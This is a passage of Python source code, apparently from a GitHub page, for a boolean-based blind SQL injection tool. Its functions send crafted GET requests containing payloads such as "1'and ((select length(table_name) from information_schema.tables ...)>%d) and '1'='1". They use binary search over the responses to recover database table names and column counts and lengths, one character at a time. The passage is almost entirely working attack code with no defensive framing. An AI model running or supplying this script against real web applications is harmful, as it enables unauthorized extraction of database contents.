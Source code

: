 ```python
        if tip in re:
            i = m + 1
        else:
            j = m - 1
    GetTableLength(i)
def GetTableLength(n):
    for k in range(n):
        i = 1
        j = 255
        while (i <= j):
            m = (i + j) // 2
            id = "1'and ((select length(table_name) from information_schema.tables where table_schema = '%s'  limit %d,1) >%d ) and '1'='1" % (dbname,
            k, m)
            re = requests.request("get", url + id).text;
            if tip in re:
                i = m + 1
            else:
                j = m - 1
        GetTableName(k,i)
def GetTableName(n,len):
    for k in range(len):
        i = 1
        j = 127
        while (i <= j):
            m = (i + j) // 2
            id = "1'and ((select ascii(substr(table_name,%d,1)) from information_schema.tables where table_schema = '%s'  limit %d,1)>%d) and '1'='1" % (k+1,dbname,n, m)
            re = requests.request("get", url + id).text;
            if tip in re:
                i = m + 1
            else:
                j = m - 1
        print(chr(i),end='')
    print()
def GetColumn():
    i = 1
    j = 255
    while (i <= j):
        m = (i + j) // 2
        id = "1' and ((select count(column_name)  from information_schema.columns where table_schema='%s' and table_name='%s')>%d) and '1'='1" % (dbname, tbname, m)
        re = requests.request("get", url + id).text;
        if tip in re:
            i = m + 1
        else:
            j = m - 1
    GetColumnLength(i)

def GetColumnLength(n):
    for k in range(n):
        i = 1
        j = 255
        while (i <= j):
            m = (i + j) // 2
            id = "1' and ((select length(column_name)  from information_schema.columns where table_schema='%s' and table_name='%s' limit %d,1) > %d ) and '1'='1" % (dbname, tbname, k, m)
            re = requests.request("get", url + id).text;
            if tip in re:
                i = m + 1
            else:
                j = m - 1
        GetColumnName(k, i)
```